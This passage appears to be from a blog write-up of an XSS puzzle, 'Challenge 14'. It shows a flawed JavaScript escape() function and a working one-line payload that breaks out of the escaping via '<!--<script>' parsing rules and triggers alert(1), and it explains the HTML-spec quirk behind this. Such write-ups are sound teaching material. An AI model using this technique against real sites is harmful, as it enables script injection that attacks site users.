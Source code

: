 Challenge 14
-----------
```
function escape(s) {
  function json(s) { return JSON.stringify(s).replace(/\//g, '\\/'); }
  function html(s) { return s.replace(/[<>"&]/g, function(s) {
                        return '&#' + s.charCodeAt(0) + ';'; }); }

  return (
    '<script>' +
      'var url = ' + json(s) + '; // We\'ll use this later ' +
    '</script>\n\n' +
    '  <!-- for debugging -->\n' +
    '  URL: ' + html(s) + '\n\n' +
    '<!-- then suddenly -->\n' +
    '<script>\n' +
    '  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);\n' +
    '  else new Image().src = url;\n' +
    '</script>'
  );
}
```
Solution
-----------
```
'<!--<script>';if({test:function(){Image=function(){alert(1)}}}/*
```
To be honest I had no idea of how to approach this challenge when I saw it for first time. But over the time I noted two html comments which looks redundant. So I started looking into the spec again (looking for html comments) and [here what I found](http://www.whatwg.org/specs/web-apps/current-work/multipage/scripting-1.html#restrictions-for-contents-of-script-elements):
```
<script>
  var example = 'Consider this string: <!-- <script>';
  console.log(example);
</script>
<!-- despite appearances, this is actually part of the script still! -->
<script>
 ... // this is the same script block still...
</script>
```
I’ll not go into detailed explanations here (since this blog post is way too long already), but I highly encourage you to read either the spec or this blog [post from Jon Passki](https://communities.coverity.com/blogs/security/2012/11/16/did-i-do-that-html-5-js-escapers-3). 
In summary, having `<!--<script>` string inside `<script>` tag will prevent browser to recognize next closing tag `</script>` and will look either for closing comment tag `-->` or `</script>`.
But this is just part of the story, since having `<!--</script>` will cause `SyntaxError: Unexpected token &`
```
<script>var url = "<!--<script>"; // We'll use this later </script>

  <!-- for debugging -->
  URL: &#60;!--&#60;script&#62;
```
This is because `URL: &#60` is part of `<script>` tag and considered as JavaScript expression. In order to solve this problem we put `<!--<script>` in single quotes, so code looks like this
```
<script>var url = "'<!--<script>'"; // We'll use this later </script>

  <!-- for debugging -->
  URL: '&#60;!--&#60;script&#62;'

<!-- then suddenly -->
<script>
  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);
```